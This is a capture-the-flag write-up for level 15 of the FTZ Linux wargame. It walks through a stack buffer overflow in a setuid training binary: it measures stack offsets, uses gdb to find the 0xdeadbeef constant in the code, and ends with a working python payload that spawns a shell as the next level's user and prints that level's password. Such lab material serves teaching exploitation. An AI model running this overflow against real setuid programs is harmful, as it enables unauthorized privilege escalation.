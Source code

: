 # Level15

## This level's goal
- Memory routine pointer

***

```
[level15@ftz level15]$ ls -l
-rwsr-x---    1 level16  level15     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level15       185 Dec 10  2002 hint

[level15@ftz level15]$ cat hint

#include <stdio.h>

main()
{ 
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

This level seems like level14, but there is the difference of check's pointer.

```
[level15@ftz tmp]$ cat distance.c
#include <stdio.h>
main()
{
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
   printf("Input is : %s\n &buf   : %p\n &check : %p\n &crap  : %p\n", buf, buf, &check, &crap);
}

[level15@ftz tmp]$ gcc distance.c -o distance
[level15@ftz tmp]$ ./distance
Input is :
 &buf   : 0xbffff3a0
 &check : 0xbffff3c8
 &crap  : 0xbffff3cc
```

As above, buf(20bytes) + dummy(20bytes) + \*check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
[level15@ftz level15]$ gdb -q tmp/attackme
(gdb) disas main
0x080484b0 <main+32>:   cmpl   $0xdeadbeef,(%eax)
(gdb) break *0x080484b0
(gdb) run
(gdb) x/16x $esp
0xbfffe3b0:     0x41414141      0x4213000a      0xbfffe3d8      0x08048471
0xbfffe3c0:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe3d0:     0x08048308      0x42130a14      0xbfffe3e8      0x0804831e
0xbfffe3e0:     0x4200af84      0x42130a14      0xbfffe408      0x42015574

(gdb) x/x 0xbfffe3e8
0xbfffe3e8:     0xbfffe408

(gdb) x/x 0xbfffe408
0xbfffe408:     0x00000000

(gdb) info registers
eip            0x80484b0        0x80484b0

(gdb) x/4x 0x80484b0
0x80484b0 <main+32>:    0xbeef3881      0x2575dead      0x6808ec83      0x00000c18

(gdb) x/4x 0x80484b2
0x80484b2 <main+34>:    0xdeadbeef      0xec832575      0x0c186808      0x18680000
```

The deadbeef's memory(EIP = Instaruction Pointer) is 0x80484b2, so the attack code will be 40 bytes dummy strings + "\xb2\x84\x04\x08".

```
[level15@ftz level15]$ (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)

my-pass
Level16 Password is "about to cause mass".
```
